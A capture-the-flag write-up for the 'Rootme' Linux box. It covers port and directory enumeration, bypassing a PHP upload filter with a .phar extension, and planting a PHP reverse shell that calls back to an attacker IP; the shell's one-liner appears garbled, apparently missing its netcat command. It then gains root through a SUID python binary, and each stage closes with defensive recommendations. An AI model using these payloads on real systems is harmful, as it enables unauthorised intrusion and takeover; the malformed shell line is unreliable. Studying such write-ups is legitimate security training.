










# Rootme

OS: Linux

# NMAP# 
First we start with enumarting the open TCP ports:
```sh
nmap -p- -vv --min-rate 2000 -oA init -Pn 10.10.106.99
```
```
Nmap 7.93 scan initiated Mon Aug 14 22:38:08 2023 as: nmap -p- -vv --min-rate 2000 -oA init -Pn 10.10.106.99
Nmap scan report for 10.10.106.99
Host is up, received user-set (0.029s latency).
Scanned at 2023-08-14 22:38:08 +08 for 14s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

# port 80
Since this is a classic CTF we start with checking out the website running on port 80:



```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.106.99/FUZZ -of all -o dirs80 -c -e .php,.txt,.html -v
```
As result of the fuzzing the directory we see that there are two interesting directories:

```
/panel/
/uploads/
```
When we visit the page we can see that there si a page where we can upload files:



And the possible location where the uploaded file will be stored:



First we can verify this by simply uploading a .txt file:



Page says 
> O arquivo foi upado com sucesso!

Which means (according to google translate): The file has been successfully uploaded!
php files blocked. Let's check if the file is in the directory listing of the uploads page:



Yes it worked! I was able to open the file.
So next we try to upload a php file to see:
1. if we can upload with a php extension
2. if php get's executed.

We know that the page is using PHP with the Wappalyzer plugin. Or we can run a scan with whatweb to verify.
The file we create is a simple PHP script which simply will output "Hello Hacker" with no additional newlines or spaces. 
In a real engagement we would not use the word hacker. Opsec...

```php
<?php
 echo("Hello Hacker")
?>
```
Oh No!

> PHP não é permitido!

..,with a red background. I don't even have to translate. So we have to find a way to bypass this (server-side) filter.

A great resource for bypassing file extension checksis: [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology)

We start testing with .php2. Yes we have are able to upload a file with a .php2 extension.
Now we need to try if we can get "Hello Hacker" displayed on the page.



Hmm...that doesn't look good. Nothing is shown on the page.

Okay maybe the .phar extension. 🤞

Great! The upload was successful and if we look up the file http://IP/uploads/test.phar. We get a greeting from a nice person who recognizes us:



Next step is to get a shell. To accomplish this we can make a file with the contents:

```php


<?php

exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1| 10.10.10.10 443 >/tmp/f");

?>
```

We start a listener on our attacker machine and upload the file to the page.
Now if we request the file on the page we should get a reverse shell on our attacker machine
```sh
curl http://IP/uploads/shell.phar
```
BOOM!! We have a shell as user www-data on the machine. we can now read the user.txt flag.




## Recommendations:
1. Apply the best practices to prevent file upload attacks: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
2. disable directory listing (CWE-548).

# privilege escalation
Enumeration for privilege escalation is performed with linpeas and we see (accoridng to linpeas) a very intersting file:



The suid bit is set on python which means that the file will get executed as the user who owns the file.
We need to lookup how to take advantage of this (mis)configuration. A great source is [GTFObins](https://gtfobins.github.io/gtfobins/)
To be more precise: https://gtfobins.github.io/gtfobins/python/#suid

We execute the following command to get a root shell:
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```



## Recommendations:
1. Do not set SUID on binaries which are able to execute commands.
